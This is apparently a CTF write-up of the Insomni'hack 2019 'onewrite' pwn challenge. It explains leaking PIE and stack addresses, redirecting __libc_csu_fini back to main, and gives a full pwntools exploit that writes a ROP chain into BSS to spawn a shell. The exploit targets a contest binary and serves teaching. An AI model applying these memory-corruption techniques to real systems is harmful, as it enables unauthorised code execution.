 ```yaml
---
layout: post
title: ! "[Insomni'hack 2019] onewrite writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwn
  - MyriaBreak
---
```

### Description

> [wishlish.png](../images/myria/wishlist-writeup/onewrite) is here
> difficulty: easy
>_  nc onewrite.teaser.insomnihack.ch 1337

<!--more-->
A program is a Simple.

```bash
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7fff979bf4a0
address : 140735736968352   
data : 12345678
 ```

we can leak a `stack` or `do_leak` function pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 byte to arbitrary address.

 ```bash
 [*] '/home/myria/CTF/Insomni_hack/onewrite/onewrite'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled

 and binary is "statically linked"
 ```

but, the binary is statically linked, we need leak `stack` and `pie` both of all.
The attack is summarized as follows.

 1. Leak `PIE` address
 2. Overwrite `pie_addr + 0x2a55a3` with `main` address
 3. Program end. And the `exit` will be called after `main` returns.
 (it call `__libc_csu_fini` function)
 4. `__libc_csu_fini` function call `QWORD [pie_addr + 0x2a55a3]`. so we again jump to `main` function.
 5. Leak `Stack` address
 6. Write a `ropchain` in the `bss`
 7. Jump `ropchain`
 8. Get Shell

The exit function is called after the main function ends. Then, the function `__libc_csu_fini` is called and you can return to main by using the **call QWORD PTR [rbp + rbx * 8 + 0x0]** of `<__ libc_csu_fini+40>`.
 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_03.png)

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_01.png)

 `6. Write a 'ropchain' in the 'bss'` is hard part. so i need to be able to write 8 bytes somewhere and **jump free** from the main function again.
You can adjust the `stack` by omitting the function's **prologue** or **epilogue** appropriately.
 manipulate the return address of the `main function` and manipulate the return address of the `do_leak function`. (`sub rsp, 0x18` ,` add rsp, 0x18` or `sub rsp, 0x8` ,` add rsp, 0x8`)
Then the `stack` is configured as shown below. Now we got one **free write** via two operations.

 ![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_02.png)

The rest is simple. configure ropchain and use `pop rsp; ret`

#### [Korean writeup](https://en.wikipedia.org/wiki/Substitution_cipher)

### The full exploit code

 ```python
 from pwn import *

#conn = remote("onewrite.teaser.insomnihack.ch", 1337)
conn = process("onewrite")

def leak(select):
	conn.recvuntil(" > ")
	conn.sendline(str(select))
	leak_addr = int(conn.recvline().strip(), 16)
	return leak_addr

def write(addr, data):
	conn.recvuntil("address : ")
	conn.send(str(addr))
	conn.recvuntil("data : ")
	conn.send(data)

## Stage 1
# do_leak func address leak
pie_addr = leak(2)
log.info("pie_address : " + hex(pie_addr))

target = pie_addr + 0x2a55a3 # rbp+rbx*8+0x0   //   call QWORD PTR [rbp+rbx*8+0x0]
main = pie_addr + 0xa3		# main function address
write(target, p64(main))

## Stage 2
# stack_address leak
stack_addr = leak(1)
target = stack_addr  + 0x28	# return address (main function)
log.info("stack_address : " + hex(stack_addr))
write(target, p64(main))


def write_arbitrary(addr, data):
	# stack_address += 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x28
	write(target, p64(main))

	# stack_address -= 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x18
	write(target, p64(main))

	# main_ret => main
	# free write! and return Main
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	log.info("writing")
	write(addr, data)	# free write

# rop_gadget
pie_base = pie_addr - 0x000008A15
pop_rdi = pie_base + 0x000858fb
pop_rsi = pie_base + 0x0008551a
pop_rdx = pie_base + 0x000484c5
pop_rax = pie_base + 0x0004654c
syscall = pie_base + 0x00088834

bss_address = pie_base + 0x2B38D0

log.info("pie_base : " + hex(pie_base))

# write "/bin/sh" to BSS
write_arbitrary(bss_address, "/bin/sh\x00")

idx = 2
def rop(data):
	global idx
	write_arbitrary(bss_address + idx*8, p64(data))
	idx+=1

# write rop_chain to BSS
rop(pop_rdi)
rop(bss_address)
rop(pop_rsi)
rop(0)
rop(pop_rdx)
rop(0)
rop(pop_rax)
rop(59)
rop(syscall)

def trigger_rop():
	stack_addr = leak(1)
	target = stack_addr  + 0x28
	log.info("stack_address : " + hex(stack_addr))
	write(target, p64(main))

	pop_rsp = pie_base + 0x00087c46
	rop_chain = bss_address + 0x10

	# jump ropchain
	write_arbitrary(stack_addr + 0x40, p64(pop_rsp))
	write_arbitrary(stack_addr + 0x48, p64(rop_chain))

trigger_rop()
leak(1)
write(1,"id\n")

conn.interactive()
 ```

